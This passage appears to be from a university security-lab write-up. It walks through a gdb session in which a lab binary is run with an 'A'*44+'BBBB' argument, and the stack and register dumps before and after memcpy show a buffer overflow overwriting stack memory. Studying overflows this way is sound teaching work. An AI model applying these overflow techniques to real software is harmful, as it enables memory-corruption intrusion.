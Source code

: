 ```
(gdb) run 12 $(python -c 'print "A"*44+"BBBB"')
Starting program: /root/Desktop/cs642/int 12 $(python -c 'print "A"*44+"BBBB"')
0xffffd5b0:     0xffffd5bc      0xffffd7d5      0x00000030      0x56556271
0xffffd5c0:     0xf7fe4f60      0x00000000      0x56556259      0x00000000
0xffffd5d0:     0x0000000c      0x00000000      0x00000000      0xf7de99a1
0xffffd5e0:     0x00000003      0xffffd674      0xffffd684      0xffffd604
0xffffd5f0:     0x00000001      0x00000000      0xf7fa6000      0xf7fe4d0a
0xffffd600:     0xf7ffd000      0x00000000      0xf7fa6000      0x00000000
0xffffd610:     0x00000000      0x595f018b      0x1bc6079b      0x00000000
0xffffd620:     0x00000000      0x00000000      0x00000003      0x56556090
=> 0x56556207 <main+62>:        call   0x56556050 <memcpy@plt>
   0x5655620c <main+67>:        add    esp,0xc
eax            0xffffd5bc       -10820
ecx            0x0      0
edx            0x30     48
ebx            0x56559000       1448448000
esp            0xffffd5b0       0xffffd5b0
ebp            0xffffd5d8       0xffffd5d8
esi            0xf7fa6000       -134586368
edi            0x0      0
eip            0x56556207       0x56556207 <main+62>
eflags         0x282    [ SF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

Breakpoint 1, 0x56556207 in main ()
```

 - we are stopped before memcpy, let's check top of the stack
 - `0xffffd5bc` -> address of buf
 - `0xffffd7d5` -> address of argv[2]
 - `0x00000030` -> 48 in decimal , number of bytes 
 - if we continue, memcpy will write data to buf which is located after `0x00000030`

```
(gdb) ni
0xffffd5b0:     0xffffd5bc      0xffffd7d5      0x00000030      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x42424242      0xffffd604
0xffffd5f0:     0x00000001      0x00000000      0xf7fa6000      0xf7fe4d0a
0xffffd600:     0xf7ffd000      0x00000000      0xf7fa6000      0x00000000
0xffffd610:     0x00000000      0x595f018b      0x1bc6079b      0x00000000
0xffffd620:     0x00000000      0x00000000      0x00000003      0x56556090
=> 0x5655620c <main+67>:        add    esp,0xc
   0x5655620f <main+70>:        mov    eax,DWORD PTR [ebp-0x8]
eax            0xffffd5bc       -10820
ecx            0x30     48
edx            0xffffd5bc       -10820
ebx            0x56559000       1448448000
esp            0xffffd5b0       0xffffd5b0
ebp            0xffffd5d8       0xffffd5d8
esi            0xf7fa6000       -134586368
edi            0x0      0
eip            0x5655620c       0x5655620c <main+67>
eflags         0x287    [ CF PF SF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
```